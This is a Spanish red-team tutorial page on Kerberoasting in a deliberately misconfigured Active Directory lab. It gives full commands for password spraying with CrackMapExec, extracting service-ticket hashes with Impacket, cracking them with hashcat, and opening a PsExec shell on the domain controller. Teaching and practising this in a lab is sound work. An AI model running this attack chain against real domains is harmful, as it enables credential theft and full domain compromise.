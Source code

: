 ```yaml
---
description: >-
  Ataque que se aprovecha de la existencia de SPNs asociados a usuarios no
  generados por el equipo
---
```


# KERBEROASTING

## INTRODUCCIÓN

{% hint style="info" %}
Este ataque está relacionado a las [malas prácticas](https://ajcruz15.gitbook.io/red-team/active-directory-hacking/creando-un-laboratorio-de-ad/3.-misconfiguraciones-importantes):

* **2. Desactivar el Firewall de Windows.**
* **3. Desactivar las protecciones del Antivirus de Windows Defender.**
* **5. Asignar un SPN al usuario creado**
* **7. Convertir un usuario en Administrador local de los clientes.**
* **8. Generar carpetas compartidas con los administradores locales.**
{% endhint %}

### Esquema de trabajo

Vamos a explotar el siguiente esquema:

En un Directorio Activo hemos obtenido un acceso inicial con un usuario con bajos privilegios, por ejemplo, utilizando SMB Relay o NTLM Relay. \(vgarcia:Password2\).

Con este acceso inicial en mente vamos a tratar de crackear el Hash de un Ticket-Granting Service \(TGS\) expedido en nombre de un usuario que posee un SPN asociado.

{% hint style="info" %}
En este ataque explotamos la capacidad de todos y cada uno de los usuarios autenticados de un dominio de solicitar un Ticket-Granting Service.

Recordemos que este TGS se encuentra encriptado con el secreto del servicio al que queremos acceder. Si este servicio es un usuario con un SPN asociado \(un usuario que Active Directory entiende como un servicio\) entonces su secreto será su contraseña y por lo tanto, el Hash obtenido se podrá crackear si la contraseña no es muy robusta.
{% endhint %}

Para entender mejor estos conceptos puede ver:

{% page-ref page="conceptos-importantes-antes-de-continuar.md" %}

### Herramientas necesarias

#### CrackMapExec

Es una herramienta de post-explotación que se aprovecha de protocolos y características propias de los entornos de Directorio Activo para obtener una gran cantidad de información sobre los mismos.

Utiliza **Impacket** y **Powersploit Toolkit**

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" caption="" %}

#### **Impacket**

Es una colección de clases de Python para trabajar con protocolos de red. Está pensada para obtener control a bajo nivel de los paquetes utilizados por algunos protocolos y, en algunos casos como SMBv1, la propia implementación del protocolo en sí mismo.

Concretamente para este ataque vamos a utilizar **impacket-GetUserSPNs**

{% embed url="https://github.com/SecureAuthCorp/impacket" caption="" %}

#### PowerSploit Toolkit <a id="powersploit-toolkit"></a>

Es una colección de scripts de Powershell orientados a ayudar a pentesters en su proceso. Éste repositorio se encuentra deprecated.

{% embed url="https://github.com/PowerShellMafia/PowerSploit" caption="" %}

#### Hashcat

Es el crackeador de hashes más rápido del mundo actualmente. Puede aprovecharse de la pontecia de una GPU.

{% embed url="https://github.com/hashcat/hashcat" caption="" %}

### Resumen

* Vamos a comprobar el alcance de nuestros credenciales capturados.
* Vamos a obtener TGS de los usuarios con SPNs asociados.
* Vamos a crackear el Hash capturado en el TGS.
* Vamos a comprobar el alcance de nuestros nuevos credenciales.
* Vamos a entrar en el DC.

## EXPLOIT

### 1. Comprobar alcance de credenciales

Como ya hemos dicho en la introducción, hemos conseguido unos credenciales en una fase preliminar y ya tenemos nuestro Foothold en la máquina.

`vgarcia:Password2`

Vamos a utilizar lo ya aprendido para comprobar el alcance de estos credenciales. Realizamos un Spraying en toda la red con estos credenciales:

`cme smb RED -u 'USUARIO' -p 'PASSWORD'`

![Vemos que el usuario es administrador solo en su propio terminal.](../.gitbook/assets/kerberoasting1.png)

Sin embargo, aunque no tenga privilegios, este usuario puede solicitar TGS igual que cualquier otro usuario del dominio.

### 2. Obtener TGS de SPNs asociados a usuarios

A continuación aprovechando las funcionalidades de **impacket-GetUserSPNs** vamos a solicitar desde la cuenta del usuario que tenemos los TGS de los diferentes SPNs, a ver que encontramos.

`sudo echo "IP_DC <tab> hackpoc <tab> hackpoc.local >> /etc/hosts`

`sudo impacket-GetUserSPNs -request hackpoc.local/vgarcia:Password2`

![Hemos obtenido un Hash de un SPN.](../.gitbook/assets/kerberoasting2%20%281%29.png)

### 3. Crackear el Hash

A continuación tratamos de crackear el Hash utilizando Hashcat \(por no utilizar siempre john\).

1. Cogemos el Hash que hemos obtenido y lo copiamos en un archivo hash.txt
2. Para averiguar el modo en el que trabaja hashcat con estos hashes sacamos: `hashcat --example-hashes | grep "krb5tgs" -B 2` 
3. Utilizamos hashcat para crackear el hash. `hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`

![Contrase&#xF1;a crackeada](../.gitbook/assets/kerberoasting3.png)

Los credenciales son SVC-SQLService:MYpassword123\#

### 4. Comprobar alcance de credenciales

Volvemos a realizar el paso uno pero con los nuevos credenciales.

`cme smb RED -u 'USUARIO' -p 'PASSWORD'`

![&#xA1;Premio! Es un usuario Administrador de dominio](../.gitbook/assets/kerberoasting4.png)

### 5. Shell interactiva con el DC

El usuario que hemos obtenido es un usuario administrador de dominio por lo que ahora tenemos capacidad de PSExec al DC.

`impacket-psexec hackpoc/SVC-SQLService:MYpassword123#@192.168.1.100 cmd.exe`

![Ahora si... &#xA1;Premio!](../.gitbook/assets/kerberoasting5.png)

## REFERENCIAS

[https://en.hackndo.com/kerberoasting/](https://en.hackndo.com/kerberoasting/)  
[https://seguridad-ofensiva.com/blog/directorio-activo/kerberoasting/](https://seguridad-ofensiva.com/blog/directorio-activo/kerberoasting/)  
[https://www.youtube.com/watch?v=KYFlvFfh-Js&list=PLlb2ZjHtNkpg2Mc3mbkdYAhEoqnMGdl2Z&index=2](https://www.youtube.com/watch?v=KYFlvFfh-Js&list=PLlb2ZjHtNkpg2Mc3mbkdYAhEoqnMGdl2Z&index=2)

